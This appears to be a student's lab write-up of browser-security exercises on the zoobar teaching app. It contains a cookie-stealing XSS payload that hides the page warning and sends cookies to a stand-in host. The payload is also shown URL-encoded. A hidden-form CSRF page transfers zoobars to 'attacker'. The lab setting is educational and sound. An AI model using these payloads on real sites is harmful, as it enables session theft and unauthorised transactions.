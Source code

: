 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

Finally we URL encode the whole payload and include it as part of the URL. The payload also requires that we include ""> and </ in the beginning and the end so that the exploit works properly.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie);</script></
    
localhost:8080/zoobar/index.cgi/users?user=admin%22%22%3e%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%44%4f%4d%43%6f%6e%74%65%6e%74%4c%6f%61%64%65%64%22%2c%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%2c%20%66%61%6c%73%65%29%3b%66%75%6e%63%74%69%6f%6e%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%28%65%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%77%61%72%6e%69%6e%67%22%29%5b%30%5d%2e%73%74%79%6c%65%2e%76%69%73%69%62%69%6c%69%74%79%20%3d%20%27%68%69%64%64%65%6e%27%3b%7d%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%3a%2f%2f%65%78%61%6d%70%6c%65%2e%63%6f%6d%2f%73%74%65%61%6c%2e%70%68%70%3f%63%6f%6f%6b%69%65%73%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e%3c%2f

###Exercise 2: Cross-Site Request Forgery

Below is provided the HTML and JavaScript code for the CSRF attack that will transfer 10 zoobars from the victim to the user 'attacker' and redirect the victim to other site.

    <html>
    <body>
        <form name="csrf" action="http://localhost:8080/zoobar/index.cgi/transfer" method="POST" target="iframe">
            <input type="hidden" name="zoobars" value="10" />
            <input type="hidden" name="recipient" value="attacker" />
        </form>
        <iframe style="display:none" id="iframe" name="iframe" frameborder="0"></iframe>
        <script> 
            document.getElementById("iframe").onload = function() {
                window.location.href = "http://css.csail.mit.edu/6.858/2014/";
            }
            document.forms[0].submit();
        </script>
    </body>
    </html>

###Exercise 3: Side Channels and Phishing

###Exercise 4: Profile Worm
